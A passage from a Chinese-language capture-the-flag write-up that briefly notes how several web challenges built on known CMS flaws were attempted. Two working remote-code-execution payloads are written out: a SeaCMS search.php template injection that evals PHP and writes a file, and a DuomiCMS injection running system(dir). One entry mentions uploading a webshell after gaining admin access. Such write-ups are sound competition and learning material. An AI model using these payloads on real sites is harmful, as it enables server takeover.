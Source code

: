 ## #No.7 xblog

有源码泄露，但是没做出来

## #No.8 看视频真嗨皮

`海洋cms`
找到`exp`构造`post`数据即可
```
http://567252405122515e0ed912af9b26d404.xnuca.cn/search.php?searchtype=5
```
post数据：
```
searchword=d&order=}{endif}{if:1)eval($_POST[x]);if(1}{end if}&x=$TxtRes=file_put_contents("writeHere/da6afcecd8a4915e67964700d2008d29", "test");echo 666;
```
参考链接：[http://www.bugku.com/forum.php?mod=viewthread&amp;tid=28](http://www.bugku.com/forum.php?mod=viewthread&amp;tid=28)

## #No.9 The Best Commun...

`Dolphin`
直接exp打，本来就想随便试一试结果直接进到一个命令行模式，就是成功了，输入system();命令拿flag
参考链接：[https://www.seebug.org/vuldb/ssvid-92546](https://www.seebug.org/vuldb/ssvid-92546)

## #No.10 买买买！

没做

## #No.11 两只小蜜蜂啊

`Beescms`
跟着exp走，先拿后台权限在上传shell
参考链接：https://bbs.ichunqiu.com/thread-13977-1-1.html?from=jike

## #No.12 社工库

没做

## #No.13 程序员怎么能不知道Jenkin...

`Jenkins`
找到了exp但是没打成功

## #No.14 试一试

`多米cms`，有个通用注入漏洞，但是好像加了waf，没有花时间去绕过，没做出来
ROIS的payload：`search.php?jq=1);system(dir);//&searchtype=5`

## #No.15 猜一猜
